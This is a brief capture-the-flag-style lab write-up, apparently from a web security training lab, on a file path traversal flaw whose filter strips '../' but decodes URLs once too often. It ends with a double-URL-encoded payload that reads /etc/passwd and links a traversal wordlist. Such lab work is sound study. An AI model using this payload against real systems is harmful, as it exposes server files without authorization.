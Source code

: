 Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

Analysis: The room is looking for URL encoding path attack.

/image?filename=60.jpg

Payload list: https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt

I just copied them into burp to get the correct payload, wuite a lot of them worked but i just grabbed the first one so we can make an exploit.

Final Payload:
/image?filename=%2e%2e%252f%2e%2e%252f%2e%2e%252f%2fetc%2fpasswd